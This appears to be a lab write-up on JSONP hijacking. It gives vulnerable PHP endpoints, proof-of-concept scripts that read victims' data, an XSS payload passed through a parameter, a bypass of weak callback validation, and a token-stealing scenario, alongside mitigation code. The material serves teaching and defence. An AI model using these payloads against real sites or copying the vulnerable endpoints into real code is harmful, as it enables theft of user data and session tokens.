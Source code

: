 # JSONP

Code Vulnerable

```html
<?php
session_start();

if($_SESSION['islogin'] != 1){
    header("Location: login.php");
    die();
}

?>
<html>
  <head>
    <title>Books Library</title>
    <link rel="stylesheet" type="text/css" href="../style/css.css">
  </head>
  <body id="bodyId">
    <div class="header">
      <a href="index.php" class="logo">Books Library</a>
      <div class="header-right">
        <a href="index.php">Home</a>
        <a class="active" href="profile.php">Profile</a>
        <a href="login.php">Login</a>
      </div>
    </div>
    <div id=output>
    	
    </div>
    <div class="container">
    	**<script type="text/javascript">
    		function userInfo(data){
    			var name = '<center><span>User Name: '+data["username"]+'</span><br>',
    				email = '<span>Email: '+data['email']+'</span><br>',
    				fname = '<span>Full Name: '+data['Full Name']+'</span></center>';
    			document.getElementById('output').innerHTML = name+email+fname;
    		}
    	</script>**
    	<script src="<http://vuln.labs/labs/jsonp/info.php?callback=userInfo>"></script>
    </div>
  </body>
</html>
```

POC

```jsx
**<script>
	function userInfo(data){
		document.write(JSON.stringify(data))
	}
</script>
<script src='<http://localhost/labs/jsonp/info.php?callback=userInfo>'></script>**
```

Mitigation

Use CORS Instead of JSONP

Strict Callback Validation

```php
<?php
header('Content-Type: application/javascript');

**$allowed_callbacks = ['safeFunction'];**
$callback = $_GET['callback'];

if (in_array($callback, $allowed_callbacks)) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}

```

JSONP Content-Type Validation

More Complex

#### Scenario 1: Exploiting with Malicious Parameters

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$name = isset($_GET['name']) ? $_GET['name'] : 'John Doe';
$email = isset($_GET['email']) ? $_GET['email'] : 'john@example.com';

$data = [
    "name" => $name,
    "email" => $email
];

// Vulnerable JSONP response with user input
echo $callback . '(' . json_encode($data) . ');';

```

exploit

```jsx
<http://localhost/vulnerable_server.php?callback=stealData&name=><script>alert('XSS')</script>&email=attacker@example.com

```

get XSS and JSONP data

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Scenario 2: Bypassing Weak Validation

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$allowed_callbacks = ['safeFunction'];

if (strpos($callback, 'safe') === 0) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}
```

#### Exploit

```jsx
<http://vulnerable.com/vulnerable_server.php?callback=safeStealData>
```

#### Scenario 4: JSONP Hijacking via CORS Misconfiguration

#### CORS-Enabled

```php
<?php
header('Access-Control-Allow-Origin: *'); // Wide open CORS policy
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$data = [
    "token" => "58rec269qs4a9w8ewd2a6ghy6", // Sensitive data
];

echo $callback . '(' . json_encode($data) . ');';

```

Exploit

```javascript
<script>
function safeStealData(data) {
    console.log("Stolen token:", data.token);
    // Further actions like sending the token to the attacker's server
}
</script>
<script src="<http://localhost/labs/jsonp/plus/vuln_server3.php?callback=safeStealData>"></script>
```

Scenario 5: Advanced URL Manipulation

```php
<?php
header('Content-Type: application/javascript');

$callback = **urldecode**($_GET['callback']);
$data = [
    "name" => "John Doe",
    "email" => "john@example.com"
];

echo $callback . '(' . json_encode($data) . ');';
```
